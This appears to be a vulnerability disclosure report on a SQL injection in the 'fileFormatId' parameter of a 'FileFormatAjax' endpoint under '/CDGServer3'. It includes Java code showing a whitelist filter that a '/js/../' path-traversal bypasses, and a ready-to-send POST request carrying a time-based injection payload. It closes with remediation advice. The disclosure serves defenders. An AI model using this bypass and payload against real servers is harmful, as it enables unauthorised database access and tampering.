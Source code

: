 ![image-20250305231656909](./assets/image-20250305231656909.png)

![image-20250305232335207](./assets/image-20250305232335207.png)

# Vulnerability Report

## Vulnerability Type

SQL Injection

## Vulnerability Description

The `fileFormatId` parameter in the `FileFormatAjax` interface is not properly validated and sanitized, leading to a SQL injection vulnerability. An attacker can craft a malicious `fileFormatId` parameter to execute arbitrary SQL queries, potentially accessing or modifying sensitive information in the database.

## Filter Bypass

```java
public class RootSecurityFilter implements Filter {
    private List<String> whiteList = Arrays.asList("/index.jsp", "/index_en.jsp", "/index_tai.jsp", "/images/welcomebg.jpg", "/images/welcome_button_login1.jpg", "/images/welcome_button_login.jpg", "/images/welcome_button_help1.jpg", "/images/welcome_button_help.jpg", "/images/welcome_button_config1.jpg", "/images/welcome_button_config.jpg", "/images/zh/welcomebg.jpg", "/images/zh/welcome_button_login1.jpg", "/images/zh/welcome_button_login.jpg", "/images/zh/welcome_button_help1.jpg", "/images/zh/welcome_button_help.jpg", "/images/zh/welcome_button_config1.jpg", "/images/zh/welcome_button_config.jpg", "/images/eh/welcomebg.jpg", "/images/eh/welcome_button_login1.jpg", "/images/eh/welcome_button_login.jpg", "/images/eh/welcome_button_help1.jpg", "/images/eh/welcome_button_help.jpg", "/images/eh/welcome_button_config1.jpg", "/images/eh/welcome_button_config.jpg","/js");

    public RootSecurityFilter() {
    }

    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest)request;
        HttpServletResponse httpResponse = (HttpServletResponse)response;
        String servletPath = httpRequest.getServletPath();
        if (this.whiteList.contains(servletPath)) {
            chain.doFilter(request, response);
        } else {
            httpResponse.sendError(403);
        }

    }

    public void destroy() {
    }
}
```

## sqli

```java
String fileFormatId = request.getParameter("fileFormatId");
if (fileFormatId == null || "".equals(fileFormatId.trim())) {
  response.sendRedirect("../loginExpire.jsp");
  return;
}
String curpage = request.getParameter("curPage");
FlowDao dao = new FlowDao();
Flow flow = dao.getAppById(fileFormatId);
if (flow == null) {
  response.sendRedirect("../loginExpire.jsp");
  return;
}
List<FlowDetail> flowDetails = dao.getAppDetailById(fileFormatId);
```




## POC

An attacker can test the vulnerability using the following POC:

```
POST /CDGServer3/js/../FileFormatAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=delFileFormat&fileFormatId=-1'waitfor delay '0:0:5'--
```

## Impact Scope

This vulnerability may affect all functionalities that use the `FileFormatAjax` interface and allow user submission of the `fileFormatId` parameter.

## Remediation Suggestions

1. Strictly validate and sanitize the user input for the `fileFormatId` parameter to ensure it contains only legitimate values.
2. Use prepared statements to execute database queries to prevent SQL injection attacks.
3. Conduct regular security audits and code reviews to identify and remediate potential security vulnerabilities.
